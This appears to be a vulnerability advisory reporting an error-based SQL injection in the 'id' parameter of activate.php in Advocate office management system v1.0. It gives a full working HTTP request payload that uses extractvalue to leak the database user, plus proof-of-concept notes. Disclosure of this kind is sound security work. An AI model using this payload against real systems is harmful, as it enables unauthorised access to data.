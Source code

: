 # Advocate office management system activate.php error-based SQL Injection Vulnerability

* **Exploit Title**: Advocate office management system activate.php error-based SQL Injection Vulnerability
* **Exploit Author**: webraybtl@webray.com.cn inc
* **Vendor Homepage**: https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html
* **Software Link**: https://www.sourcecodester.com/download-code?nid=17280&title=Advocate+office+management+system+free+download
* **Version**: Advocate office management system v1.0
* **Tested on:**  PHP 7.4.33, OpenResty1.21.4.3-3-3-focal
* **CVE:**  Reported, waiting for CVE number.

## Description

Advocate office management system activate.php `id`​ parameter has an error-based SQL injection Vulnerability.

#### Payload used

```plaintext
GET /control/activate.php?id=1+AND+extractvalue%281%2Cconcat%28%27~%27%2C%28select+user%28%29%29%29%29 HTTP/1.1
Host: 192.168.56.128:8080
Cache-Control: no-cache
Origin: http://192.168.56.128:8080
Cookie: PHPSESSID=c44ka87dik7dcvd007quilufp2
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://192.168.56.128:8080/control/login.php
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Priority: u=0, i
Pragma: no-cache
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Upgrade-Insecure-Requests: 1


```

## Proof of Concept

* Construct the post request package and send it to the activate.php. Successfully saw that user information existed in the response.

​![image](assets/image-20240924102037-3mv120h.png)​

* Upon reviewing the source code, it was discovered that the `id`​ parameter was directly concatenated into the SQL statement.

​![image](assets/image-20240924102215-n05i8sv.png)​

‍

